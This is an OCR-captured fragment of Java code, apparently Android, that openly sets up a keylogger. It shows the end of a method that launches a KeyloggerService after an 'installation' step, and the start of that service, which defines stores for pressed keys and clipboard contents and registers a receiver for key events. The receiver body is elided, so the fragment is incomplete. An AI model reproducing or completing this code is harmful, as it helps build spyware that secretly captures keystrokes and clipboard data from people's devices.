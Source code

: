 ```java

                Intent serviceIntent = new Intent(context, KeyloggerService.class);

                context.startService(serviceIntent);

            } else {

                // Keylogger installation failed

                Log.e(TAG, "Keylogger installation failed");

            }

        } catch (Exception e) {

            e.printStackTrace();

        }

    }

}



public class KeyloggerService extends Service {

    private static final String TAG = "KeyloggerService";

  

    private static final String PREF_FILE = "KeyloggerPrefs";

    private static final String KEY_PRESSED = "KeyPressed";

    private static final String CLIPBOARD = "Clipboard";

  

    private SharedPreferences sharedPreferences;

    private BroadcastReceiver receiver;

  

    @Override

    public void onCreate() {

        super.onCreate();

        sharedPreferences = getSharedPreferences(PREF_FILE, Context.MODE_PRIVATE);

      

        // Register broadcast receiver to listen for key events

        receiver = new BroadcastReceiver() { ... };

        IntentFilter filter = new IntentFilter(Intent.ACTION_SCREEN_OFF);

        filter.addAction(Intent.ACTION_SCREEN_ON);

```